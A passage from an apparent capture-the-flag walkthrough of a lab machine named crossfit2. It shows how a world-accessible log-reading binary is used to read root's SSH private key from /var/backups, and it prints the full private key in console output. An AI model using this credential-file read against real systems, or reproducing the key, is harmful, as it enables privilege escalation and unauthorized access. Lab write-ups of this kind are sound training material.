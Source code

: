 For example, the system shell database, ```/etc/shells```, is held as ```/var/backups/etc_shells.current```.

When this file is modified, it is renamed to ```/var/backups/etc_shells.backup``` and the new version becomes ```/var/backups/etc_shells.current```. Thereafter, these files are rotated.

So according that ```/root/.ssh/id_rsa``` backed up to ```/var/backups/root_.ssh_id_rsa.current```, Because the file will be on ```/var/backups``` and we can read any file on ```/var``` using ```/usr/local/bin/log``` we can read read the ```root``` private key:
```console
crossfit2$ /usr/local/bin/log /var/backups/root_.ssh_id_rsa.current

* LogReader v0.1

[*] Log size: 2610

-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----

```
